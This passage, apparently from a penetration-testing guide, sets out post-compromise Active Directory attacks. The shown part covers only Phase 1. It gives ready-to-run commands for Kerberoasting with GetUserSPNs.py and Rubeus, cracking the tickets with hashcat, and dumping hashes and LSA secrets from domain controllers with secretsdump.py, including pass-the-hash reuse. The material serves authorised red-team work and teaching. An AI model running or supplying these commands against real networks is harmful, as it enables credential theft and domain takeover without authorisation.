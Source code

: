 # Post-Compromise Attack Strategy

## Overview
Once you've gained initial access to a domain environment, the real work begins. This guide outlines a systematic approach to post-compromise activities, focusing on privilege escalation, lateral movement, and achieving persistent domain access.

## The Question: "We have an account, now what?"

After successfully compromising an account (through password spraying, phishing, or other initial access methods), you need a structured approach to maximize the compromise and achieve your penetration testing objectives.

## Phase 1: Search the Quick Wins

### 1. Kerberoasting
**Goal**: Extract service account passwords that can be cracked offline

```bash
# Using GetUserSPNs.py (Impacket)
GetUserSPNs.py domain.local/username:password -dc-ip dc_ip -request

# Using Rubeus (if you have a Windows session)
Rubeus.exe kerberoast /outfile:kerberoast_hashes.txt

# Crack the hashes
hashcat -m 13100 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt

# Expected outcomes:
# - Service account passwords
# - Potential admin-level accounts
# - Lateral movement opportunities
```

### 2. Secretsdump
**Goal**: Extract password hashes and secrets from accessible systems

```bash
# Basic secretsdump against domain controller
secretsdump.py domain.local/username:password@dc.domain.local

# Target specific systems where you have admin rights
secretsdump.py domain.local/username:password@target_server.domain.local

# Use extracted hashes for further attacks
secretsdump.py -hashes :ntlm_hash domain.local/username@target

# What to look for:
# - Administrator account hashes
# - Machine account hashes
# - Cached credentials
# - LSA secrets
```
